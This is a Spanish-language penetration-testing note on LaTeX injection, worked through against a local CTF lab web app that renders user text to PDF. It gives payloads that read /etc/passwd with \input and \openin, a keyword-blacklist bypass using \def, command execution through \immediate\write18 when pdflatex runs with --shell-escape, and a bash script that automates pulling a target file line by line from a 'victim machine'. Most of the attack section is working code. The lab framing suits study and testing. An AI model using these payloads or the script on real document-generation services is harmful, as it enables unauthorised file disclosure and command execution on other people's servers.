






# Inyecciones LaTeX

### Más info:

- Links
    
    PayloadsAllTheThings - (”[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)”)
    
    Salmonsec - (”[https://salmonsec.com/cheatsheets/exploitation/latex_injection](https://salmonsec.com/cheatsheets/exploitation/latex_injection)”)
    
    0daywork - (”[https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)”)
    

## Requerimientos
Laboratorio LaTeX injection: [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)

```bash
apt install texlive-full -y
apt install zathura latexmk rubber -y
apt install poppler-utils

xdg-mime query default application/pdf
xdg-mime default zathura.desktop application/pdf

service apache2 start
cd /var/www/html
svn checkout https://github.com/internetwache/Internetwache-CTF-2016/trunk/tasks/web90/code
cp code/* .
rm -r code
mv config.php.sample config.php
chown www-data:www-data -R *
```

Una vez finalizado, verificar el servidor web en el localhost.

## Pruebas

La página web se ve de la siguiente forma:



Esta página sirve para generar documentos .pdf de forma dinámica con base al texto que se le ingresa.



Los documentos “.pdf” los almacena en la carpeta pdf.

## Explotación

Leer archivos:

```bash
\input{/etc/passwd}
```

En este caso, este payload no funcionará ya que la palabra input e include está blacklisteada en el código



Para intentar burlar esta restricción se podrían separar las palabras y luego unirlas:

```bash
# Por ejemplo, "hacking" es la palabra prohibida por lo 
# que se dividirá en dos para luego unirla

\def\first{hack}
\def\second{ing}
\first\second

# El resultado será la palabra "hacking"
```

Leer una única línea:

```bash
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Mostrar varias líneas:

```bash
\newread\file
\openin\file=/etc/passwd
\read\file to\lineA
\read\file to\lineB
\text{\lineA\lineB}
\closein\file
```

Es posible que al leer archivos de errores debido a caracteres especiales que se encuentran en el contenido de este. En estos casos, puede ser útil convertir el contenido del archivo a base64 y decodificarlo localmente:

```bash
#~~~~~~~~~~~~~#
\immediate\write18{cat /etc/passwd | base64}
\input{/etc/passwd}
```

Comando pdflatex con “--shell-escape**":**

En este caso, la web utiliza “—shell-escape” la cual no es conveniente usar ya que permite el uso de “\write18“ para ejecutar comandos

Ejecutar comandos:

```bash
# Al no especificarle un output, es posible que el 
# resultado del comando se muestre en el error que 
# devuelve la página web

\immediate\write18{<comando>}
```



Otra alternativa es redirigir el output del comando a un archivo y luego leerlo

```bash
\immediate\write18{id > output}

\newread\file
\openin\file=output
\read\file to\line
\text{\line}
\closein\file
```

También se podría leer el archivo con el output del comando directamente si se tiene acceso a él desde la web.

## Script en Bash

Este script sirve para mostrar todas las líneas de un archivo deseado de la máquina víctima por medio de inyecciones LaTeX:

- Script
    
    ```bash
    #!/bin/bash
    
    # Variables globales
    declare -r main_url="http://localhost/ajax.php"
    filename=$1
    
    if [ $1 ]; then
    	read_file_to_line="%0A\read\file%20to\line"
    	
    	for i in $(seq 1 100); do
    		file_to_download=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$read_file_to_line%0A\text{\line}%0A\closein\file&template=blank" | grep "Download:" | awk 'NF{print $NF}')
    		
    		if [ $file_to_download ]; then
    			wget $file_to_download &>/dev/null
    			file_to_convert=$(echo $file_to_download | awk '{print $5}' FS="/")
    			pdftotext $file_to_convert
    			file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
    			rm $file_to_convert
    			cat $file_to_read | head -n 1
    			rm $file_to_read
    			read_file_to_line+="%0A\read\file%20to\line"
    		else
    			read_file_to_line+="%0A\read\file%20to\line"
    		fi
    	done
    else
    	echo -e "\n\n[!] Uso: $0 /etc/passwd\n\n"
    fi
    ```
    

La inyección que se utilizará es la siguiente:

```bash
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Primero se interceptará la petición de esta inyección con Burpsuite:



La petición estará urlencodeada por lo que se urldecodeo con “ctrl + shift + u”.

Ahora urlencodeara la petición para que esté en un formato adecuado para el script; los saltos de línea serán representados con “%0A” y los espacios con “%20”:



```bash
content=\newread\file%0A\openin\file=/etc/passwd%0A\read\file%20to\line%0A\text{\line}%0A\closein\file&template=blank
```

